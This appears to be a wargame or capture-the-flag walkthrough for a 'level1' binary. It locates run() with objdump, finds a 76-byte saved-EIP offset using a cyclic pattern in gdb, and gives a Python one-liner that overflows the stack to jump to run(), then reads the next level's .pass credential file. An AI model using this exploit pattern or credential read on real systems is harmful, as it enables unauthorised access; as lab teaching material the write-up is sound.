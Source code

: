 ### 1. Find the adress of run()

```bash
$ objdump -t ./level1
...
08048444 g     F .text  0000003c              run
...
```

### 2. Find the offset of saved eip in main

To find the offset we can use a [Pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).

```bash
$ gdb ./level1
(gdb) r
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```

![pattern generator](./Ressources/image.png)

We have an offset of 76 bytes. So the payload is 76 random bytes and the address of run() (0x08048444).

```bash
$ (python -c 'print "a" * 76 + "\x44\x84\x04\x08"';cat) | ./level1
cat /home/user/level2/.pass
```
